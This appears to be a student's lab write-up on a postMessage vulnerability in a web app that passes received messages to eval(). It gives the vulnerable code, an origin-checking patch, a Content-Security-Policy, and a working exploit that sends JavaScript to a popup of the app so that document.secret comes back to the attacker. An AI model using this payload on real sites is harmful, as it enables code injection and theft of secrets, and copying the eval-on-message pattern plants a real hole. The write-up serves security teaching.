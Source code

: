 # Vulnerability 

The vulnerability in this app allow any adversary to send untrusted code and execute it within the vulnerable app.  This is because it does not check on the origin of the messages, rather, it assumes it's a trusted site and even allow it to eval() which is very dangeous and could be used to do a lot of malicious attacks, such as stealing cookies or performing any kind of functions on behalf of the vulnerable web-app.

To explain in details, we need to take a look at the inline JavaScript code, used in the vulnerable web-app. 


I call this vuln-app (my port 5000)
```
var requestAd = function(src) {
    var data = {
        keywords: ['lorem', 'ipsum', 'dolore']
    };

    src.postMessage(data, '*');
};

var onMessage = function(event) {
    console.log('received ' + event.data);
    eval(event.data);
};


```

And from the script loaded from the IFRAME (the third-part Ad Website): 
I call this mal-ad `(http://amplifier.ccs.neu.edu:19674)`

```
var onMessage = function(event) {
   console.log('redirecting to http://modulator.ccs.neu.edu:16915/ad');
   window.location.href = 'http://modulator.ccs.neu.edu:16915/ad?ks=' + event.data.keywords.join(',');
};

window.addEventListener('message', onMessage, false);

setTimeout("parent.postMessage('requestAd(event.source);', '*')", 2000);
```
We see a lot of violations here: 

- `vuln-app` allow `mal-ad` to execute the function `eval` 
- `vuln-app` allow any potential attacker to just open a window/frame of `vuln-app` and start communicate with it using `postMessage` and perform the adversaries attacks leveraging `eval()`.
- `mal-ad` was allowed to change location of the iframe to another website `(http://modulator.ccs.neu.edu:16915/ad)` and `vuln-app` still trusting the new loaded website and allow it to continue communicating with it with previous trust links.


# Patch 

My patch was to enforce checking of origin of messages that comes from `postMessage` and remove `eval()`

```
var onMessage = function(event) {
        if (event.origin !== "http://modulator.ccs.neu.edu:17605") 
                return;
    console.log('received ' + event.data);
    //eval(event.data);
    // instead of eval, we know that our ad-network needs requestAd, so just do it here, don't leverage that capability to other untrusted
    requestAd(event.source)
};

```


# CSP 

In addition to patching the client side, we also can do CSP ruleset that makes the browser block any vilations of the provided ruleset we are sending the HTTP response headers.


```
   resp.headers['Content-Security-Policy'] =  'default-src \'self\'; '
    resp.headers['Content-Security-Policy'] += 'script-src  \'self\' \'unsafe-inline\' http://modulator.ccs.neu.edu:17605 ;'
    resp.headers['Content-Security-Policy'] += 'style-src   \'self\' \'unsafe-inline\' http://fonts.googleapis.com ;'
    resp.headers['Content-Security-Policy'] += 'font-src    \'self\' http://fonts.gstatic.com ; '
    resp.headers['Content-Security-Policy'] += 'frame-src   \'self\' http://modulator.ccs.neu.edu:17605 ;'


```

So this will make sure to allow all the identified resources and used in this web-app, and it might need to be updated whenever a new resource outside of this policy scope is wanted. This ruleset are very tight as possible. We can enhance this to make style-src * so it gets more freedom on loading external links.  But I had to make sure it's very tight to follow your requirements. 



# The Exploit

I only had to open a new pop-window of location=vuln-app and use postMessage to communicate with the vuln-app and have to do eval() to send me back document.secret.   Notice i was using the vulnerable-test app port 3000 (http://amplifier.ccs.neu.edu:18286/)
```
				var onMessage = function(event) {
                                    document.getElementById("ta_1").value = 'secret = ' + event.data
                                }
                                   
                                window.addEventListener('message', onMessage, false);

                                var win = window.open("http://amplifier.ccs.neu.edu:18286/", "", "width=250, height=300")
                                function send() { 
                                        win.postMessage('alert(document.secret); event.source.postMessage(document.secret, "*");', '*')
                                }

```
Because vuln-app use eval(event.data); so whatever you put on the postMessage, it will be parsed by eval on vuln-app side. So event.source that will point to our exploit window. 


I tried it and it worked very well, and end up seeing alert first then having secret = XYZ in the textarea


